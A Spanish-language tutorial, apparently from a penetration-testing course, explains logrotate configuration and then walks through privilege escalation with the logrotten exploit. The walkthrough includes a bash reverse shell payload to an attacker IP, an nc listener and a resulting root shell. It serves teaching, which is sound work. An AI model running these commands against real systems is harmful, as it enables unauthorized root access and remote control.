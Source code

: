 Cada sistema Linux produce grandes cantidades de archivos de registro (log files). Para evitar que el disco duro se llene, una herramienta llamada `logrotate` se encarga de archivar o eliminar los logs antiguos. Si no se presta atención a los archivos de registro, estos se vuelven más y más grandes y eventualmente ocupan todo el espacio disponible en el disco. Además, buscar en muchos archivos de registro grandes es una tarea que consume mucho tiempo. Para evitar esto y ahorrar espacio en disco, se ha desarrollado `logrotate`. Los logs en `/var/log` dan a los administradores la información que necesitan para determinar la causa detrás de los malfuncionamientos. Casi más importantes son los detalles del sistema no notados, como si todos los servicios están funcionando correctamente.

`Logrotate` tiene muchas características para gestionar estos archivos de registro. Estas incluyen la especificación de:

- el `size` (tamaño) del archivo de registro,
- su `age` (edad),
- y la `action` (acción) a tomar cuando se alcanza uno de estos factores.

```r
man logrotate
# or
logrotate --help

Usage: logrotate [OPTION...] <configfile>
  -d, --debug               Don't do anything, just test and print debug messages
  -f, --force               Force file rotation
  -m, --mail=command        Command to send mail (instead of '/usr/bin/mail')
  -s, --state=statefile     Path of state file
      --skip-state-lock     Do not lock the state file
  -v, --verbose             Display messages during rotation
  -l, --log=logfile         Log file or 'syslog' to log to syslog
      --version             Display version information

Help options:
  -?, --help                Show this help message
      --usage               Display brief usage message
```

La función de la rotación en sí consiste en renombrar los archivos de registro. Por ejemplo, se pueden crear nuevos archivos de registro para cada nuevo día, y los más antiguos se renombrarán automáticamente. Otro ejemplo de esto sería vaciar el archivo de registro más antiguo y así reducir el consumo de memoria.

Esta herramienta suele iniciarse periódicamente a través de `cron` y se controla a través del archivo de configuración `/etc/logrotate.conf`. Dentro de este archivo, contiene configuraciones globales que determinan la función de `logrotate`.

```r
cat /etc/logrotate.conf


# see "man logrotate" for details

# global options do not affect preceding include directives

# rotate log files weekly
weekly

# use the adm group by default, since this is the owning group
# of /var/log/syslog.
su root adm

# keep 4 weeks worth of backlogs
rotate 4

# create new (empty) log files after rotating old ones
create

# use date as a suffix of the rotated file
#dateext

# uncomment this if you want your log files compressed
#compress

# packages drop log rotation information into this directory
include /etc/logrotate.d

# system-specific logs may also be configured here.
```

Para forzar una nueva rotación el mismo día, podemos establecer la fecha después de los archivos de registro individuales en el archivo de estado `/var/lib/logrotate.status` o usar la opción `-f`/`--force`.

```r
sudo cat /var/lib/logrotate.status

/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3
```

Podemos encontrar los archivos de configuración correspondientes en el directorio `/etc/logrotate.d/`.

```r
ls /etc/logrotate.d/

alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp
```

```r
cat /etc/logrotate.d/dpkg

/var/log/dpkg.log {
        monthly
        rotate 12
        compress
        delaycompress
        missingok
        notifempty
        create 644 root root
}
```

Para explotar `logrotate`, necesitamos cumplir algunos requisitos.

1. Necesitamos permisos de `write` (escritura) en los archivos de registro.
2. `Logrotate` debe ejecutarse como un usuario privilegiado o `root`.
3. Versiones vulnerables:
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0

Hay un exploit prefabricado que podemos usar si se cumplen los requisitos. Este exploit se llama [logrotten](https://github.com/whotwagner/logrotten). Podemos descargarlo y compilarlo en un kernel similar al del sistema objetivo y luego transferirlo al sistema objetivo. Alternativamente, si podemos compilar el código en el sistema objetivo, entonces podemos hacerlo directamente en el sistema objetivo.

```r
logger@nix02:~$ git clone https://github.com/whotwagner/logrotten.git
logger@nix02:~$ cd logrotten
logger@nix02:~$ gcc logrotten.c -o logrotten
```

A continuación, necesitamos un payload para ejecutar. Aquí tenemos muchas opciones diferentes disponibles que podemos usar. En este ejemplo, ejecutaremos un simple reverse shell basado en bash con la `IP` y el `port` de nuestra VM que usamos para atacar el sistema objetivo.

```r
logger@nix02:~$ echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

Sin embargo, antes de ejecutar el exploit, necesitamos determinar qué opción usa `logrotate` en `logrotate.conf`.

```r
logger@nix02:~$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"

create
```

En nuestro caso, es la opción: `create`. Por lo tanto, tenemos que usar el exploit adaptado a esta función.

Después de eso, tenemos que iniciar un listener en nuestra VM / Pwnbox, que espera la conexión del sistema objetivo.

```r
nc -nlvp 9001

Listening on 0.0.0.0 9001
```

Como paso final, ejecutamos el exploit con el payload preparado y esperamos un reverse shell como usuario privilegiado o root.

```r
logger@nix02:~$ ./logrotten -p ./payload /tmp/tmp.log
```

```r
...
Listening on 0.0.0.0 9001

Connection received on 10.129.24.11 49818
# id

uid=0(root) gid=0(root) groups=0(root)
```